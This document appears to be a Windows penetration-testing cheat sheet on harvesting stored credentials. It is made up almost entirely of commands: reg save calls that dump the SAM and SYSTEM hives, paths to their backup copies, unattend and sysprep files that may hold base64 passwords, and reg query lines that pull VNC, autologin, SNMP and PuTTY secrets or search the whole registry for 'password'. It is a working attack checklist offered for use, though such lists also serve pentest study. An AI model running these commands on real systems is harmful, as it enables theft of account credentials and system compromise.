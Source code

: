 - Find passwords in event log files.

```powershell
C:\Windows\System32\Config\*.evt
```

```powershell
C:\Windows\System32\winevt\Logs\*.evtx
```

```
Get-WinEvent -path file.evtx
```

- SAM and SYTEM file

```powershell
reg save HKLM\SAM C:\sam
reg save HKLM\SYSTEM C:\system

C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM
C:\Windows\repair\system
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\system
```

- These are common files to find them in. They might be base64-encoded. So look out for that

```powershell
type c:\sysprep.inf
type c:\sysprep\sysprep.xml
type c:\unattend.xml
type %WINDIR%\Panther\Unattend\Unattended.xml
type %WINDIR%\Panther\Unattended.xml
```

- In Registry

```powershell
# VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"

# Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

# SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"

# Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

# Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

---